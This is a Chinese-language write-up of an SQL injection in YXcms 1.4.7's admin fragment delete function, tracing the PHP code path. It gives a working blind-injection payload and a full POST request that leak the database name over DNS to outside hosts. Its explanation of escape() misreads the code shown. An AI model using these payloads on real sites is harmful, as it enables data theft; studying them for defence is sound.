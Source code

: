 # YXcms 1.4.7 sql 注入

> 原文：[http://book.iwonder.run/0day/YXcms/6.html](http://book.iwonder.run/0day/YXcms/6.html)

## 一、漏洞简介

## 二、漏洞影响

YXcms 1.4.7

## 三、复现过程

### 漏洞分析

查看漏洞文件 protected/apps/admin/controller/fragmentController.php 的第 63 行

```
public function del()
{
    if(!$this->isPost()){
        $id=intval($_GET['id']);
        if(empty($id)) $this->error('您没有选择~');
        if(model('fragment')->delete("id='$id'"))
        echo 1;
        else echo '删除失败~';
    }else{
        if(empty($_POST['delid'])) $this->error('您没有选择~');
        $delid=implode(',',$_POST['delid']);
        if(model('fragment')->delete('id in ('.$delid.')'))
        $this->success('删除成功',url('fragment/index'));
    }
} 
```

我们跟 if(model('fragment')->delete("id='$id'")),它会先到 protected/core.php 文件里面的 model

```
function model($model){
    static $objArray = array();
    $className = $model . 'Model';
    if( !is_object($objArray[$className]) ){
        if( !class_exists($className) ) {
            throw new Exception(config('_APP_NAME'). '/' . $className . '.php 模型类不存在');
        }
        $objArray[$className] = new $className();
    }
    return $objArray[$className];
} 
```

然后到 protected/apps/admin/model/fragmentModel.php

```
<?php
class fragmentModel extends baseModel{
    protected $table = 'fragment';
} 
```

继续 protected/base/model/baseModel.php

```
<?php
class baseModel extends model{
     protected $prefix='';
     public function __construct( $database= 'DB',$force = false ){
        parent::__construct();
        $this->prefix=config('DB_PREFIX');
    }
} 
```

再来到最底层的数据库操作类 protected/base/model/model.php 的第 45 行

```
public function delete($condition){
return $this->model->table($this->table, $this->ignoreTablePrefix)->where($condition)->delete();
    } 
```

这个 delete()是从哪里来的，我们来看第十三行的代码,创建了一个对象 cpModel

```
static public function connect($config, $force=false){
        static $model = NULL;
        if( $force==true || empty($model) ){
            $model = new cpModel($config);
        }
        return $model;
    } 
```

漏洞文件在 protected/include/core/cpModel.class.php,

```
public function delete() {
        $table = $this->options['table'];   //当前表
        $where = $this->_parseCondition();  //条件
        if ( empty($where) ) return false; //删除条件为空时，则返回 false，避免数据不小心被全部删除

        $this->sql = "DELETE FROM $table $where";
        $query = $this->db->execute($this->sql);
        return $this->db->affectedRows();
    } 
```

这里用到了一个方法 _parseCondition()

```
private function _parseCondition() {
        $condition = $this->db->parseCondition($this->options);
        $this->options['where'] = '';
        $this->options['group'] = '';
        $this->options['having'] = '';
        $this->options['order'] = '';
        $this->options['limit'] = '';
        $this->options['field'] = '*';      
        return $condition;      
    }
} 
```

这个函数是在 protected/include/core/db/cpMysql.class.php 的 128 行

```
public function parseCondition($options) {
        $condition = "";
        if(!empty($options['where'])) {
            $condition = " WHERE ";
            if(is_string($options['where'])) {
                $condition .= $options['where'];
            } else if(is_array($options['where'])) {
                    foreach($options['where'] as $key => $value) {
                         $condition .= " `$key` = " . $this->escape($value) . " AND ";
                    }
                    $condition = substr($condition, 0,-4);  
            } else {
                $condition = "";
            }
        }

        if( !empty($options['group']) && is_string($options['group']) ) {
            $condition .= " GROUP BY " . $options['group'];
        }
        if( !empty($options['having']) && is_string($options['having']) ) {
            $condition .= " HAVING " .  $options['having'];
        }
        if( !empty($options['order']) && is_string($options['order']) ) {
            $condition .= " ORDER BY " .  $options['order'];
        }
        if( !empty($options['limit']) && (is_string($options['limit']) || is_numeric($options['limit'])) ) {
            $condition .= " LIMIT " .  $options['limit'];
        }
        if( empty($condition) ) return "";
        return $condition;
    } 
```

里面有一个行数来过滤 escape,我们找到 74 行的这个函数定义

```
public function escape($value) {
        if( isset($this->_readLink) ) {
            $link = $this->_readLink;
        } elseif( isset($this->_writeLink) ) {
            $link = $this->_writeLink;
        } else {
            $link = $this->_getReadLink();
        }

        if( is_array($value) ) { 
           return array_map(array($this, 'escape'), $value);
        } else {
           if( get_magic_quotes_gpc() ) {
               $value = stripslashes($value);
           } 
            return  "'" . mysql_real_escape_string($value, $link) . "'";
        }
    } 
```

不过这个函数有一句 is_array 如果是数组才会执行下面的过滤，如果不是的话就正常执行下去,没有任何 sql 的过滤就造成了注入漏洞。

### 复现

这个盲注可以用[http://ceye.io 和 python 脚本跑](http://ceye.io 和 python 脚本跑)

```
http://0-sec.org/index.php?r=admin/fragment/index 
```

payload:

```
1 and if((select load_file(concat('\\\\',(select database()),'.xxxx.ceye.io\\abc'))),1,1))-- 

- 点击删除 
```

post 包

```
POST /index.php?r=admin/fragment/del HTTP/1.1
Host: 0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 188
Referer: [url]http://127.0.0.1/index.php?r=admin/fragment/index[/url]
Cookie: PHPSESSID=bbei6n32cuevaf1lbi0n79rdj2; 
Connection: close
Upgrade-Insecure-Requests: 1

delid%5B%5D=select LOAD_FILE((CONCAT('\\\\',(SELECT DATABASE()),'.8571e594.2m1.pw\\abc')))&__hash__=529fbedab8a7b8a3f3f5a0f394f51cf2_08ebfXTKPoKd0tX4iq+aFMwhq5QkkRGC/NfUu/Ny83+UmU8u0MoCIj8 
```

![image](img/d75904d52c7318494dbd3fb9912bb21a.png)

然后用 burp 截获数据，修改内容加上我们的 payload，用原文的 payload 后面+会报错

![image](img/25ce61fdf28853db892d5d77b1198bd1.png)

然后进入[http://ceye.io/records/dns](http://ceye.io/records/dns) 查看我们的数据

![image](img/a4fc880f59ae34769f3b7ea5bd35330c.png)

